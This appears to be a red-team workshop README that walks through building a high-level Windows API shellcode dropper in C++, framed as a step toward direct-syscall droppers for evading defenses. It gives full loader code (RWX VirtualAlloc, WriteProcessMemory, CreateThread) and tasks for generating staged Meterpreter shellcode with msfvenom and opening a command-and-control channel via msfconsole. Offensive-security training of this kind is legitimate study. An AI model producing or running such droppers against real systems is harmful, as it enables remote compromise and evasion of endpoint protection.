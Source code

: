 ## Introduction
In this exercise, we want to take the first step towards creating our own direct system call dropper. But to understand the principle of a legitimate
sysall itself, we start by creating a high-level API (HLA) shellcode dropper based on Windows APIs, which will serve as our reference for later modifications. The technical functionality of the high level API is relatively simple and therefore, in my opinion, perfectly suited to gradually develop the high level API dropper into a direct system call dropper. In the HLA dropper we use the following Windows APIs: 
- VirtualAlloc
- WriteProcessMemory
- CreateThread
- WaitForSingleObject



## Workshop tasks
- Create a new C++ POC in Visual Studio 2019 and use the provided code for the HLA dropper
- Create staged x64 meterpreter shellcode with msfvenom and copy it into the C++ HLA Dropper POC. 
- Compile the HLA Dropper as release or debug x64 
- Create and run a staged x64 meterpreter listener with msfconsole
- Run your compiled .exe and check if a stable command and control channel opens 
- Use the Visual Studio dumpbin tool to verify that all used Windows APIs are correctly imported by kernel32.dll. 
- Use the API Monitor tool to check the transition from the used Windows APIs to the corresponding native APIs. 
- Use x64 dbg and check where the syscall execution of each used Native API comes from ? Module? Location? 


### Visual Studio 
The first step is to create a new C++ project in Visual Studio by following the steps below. 

<p align="center">
<img width="652" alt="image" src="https://user-images.githubusercontent.com/50073731/235356344-c14f9123-751c-462c-a610-50c7156f93f9.png">
</p>

The easiest way is to create a new console app project and then delete the default hello world text in main.cpp. 

<p align="center">
<img width="640" alt="image" src="https://user-images.githubusercontent.com/50073731/235357092-5fd2e873-6732-4b37-a69d-38a281953b2e.png">
<img width="645" alt="image" src="https://user-images.githubusercontent.com/50073731/235357228-940ec56c-7565-44b8-8b6a-01a74ab15e1d.png">
</p>

The following code can be used for the high_level_dropper.cpp
```
#include <stdio.h>
#include <windows.h>

// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}

int main() {
    // Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL);

    // Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);

    //// Clean up the resources after the shellcode execution
    //// Close the handle to the shellcode execution thread
    //CloseHandle(hThread);

    //// Release the memory allocated for the shellcode
    //VirtualFree(exec, 0, MEM_RELEASE);

    // Return 0 as the main function exit code
    return 0;
}
```



